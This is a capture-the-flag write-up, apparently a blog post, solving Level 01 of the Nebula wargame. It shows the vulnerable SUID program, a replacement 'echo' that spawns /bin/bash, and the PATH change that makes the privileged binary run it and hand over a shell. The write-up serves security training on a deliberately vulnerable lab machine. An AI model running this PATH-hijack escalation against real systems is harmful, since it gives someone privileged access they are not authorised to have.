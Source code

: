 ```yaml
---
layout: post
title: "Nebula01"
tags: Nebula
description: "Writing a simple binary to exploit the application via $PATH variable"
---
```



## Level 01

> There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it? To do this level, log in as the `level01` account with the password `level01`. Files for this level can be found in the `/home/flag01` directory.

### Source code

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

## Getting the flag

First, let's login via `ssh` and check the binary at `/home/flag01`. 

```
level01@nebula:/home/flag01$ ./flag01 
and now what?
```

From the quick audit of the source code, we can see that `echo` is called by the relative path instead of the absolute one (`echo` instead of `/bin/echo`). We can abuse that and create another binary named `echo` in another location and add it to the `$PATH`, so Linux will prioritize our "malicious" binary instead of the right one. 

Let's create a new folder in `/tmp` and write a simple program there:

```
flag01@nebula:~$ cd /tmp
flag01@nebula:/tmp$ mkdir level01 && cd level01
flag01@nebula:/tmp/level01$ nano echo.c
```

Our `echo` will simply call the `/bin/bash`. It could be anything, really, but I prefer to spawn a shell if I have a chance to do so.

```
#include<stdio.h>

int main()
{
  system("/bin/bash");
}
```

Compile that program with `gcc` 

```
flag01@nebula:/tmp/level01$ gcc echo.c -o echo
```

Let's check the content of the `$PATH` variable:

```
flag01@nebula:/tmp/level01$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

We can add our folder with the binary to the global `$PATH`:

```
flag01@nebula:/tmp/level01$ PATH=/tmp/level01:$PATH

flag01@nebula:/tmp/level01$ echo $PATH
/tmp/level01:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

Alright, now when we will execute the binary in the `/home/flag01` it will call our `echo` and spawn a shell:

```
flag01@nebula:/tmp/level01$ /home/flag01/flag01 
flag01@nebula:/tmp/level01$ getflag 
You have successfully executed getflag on a target account
```
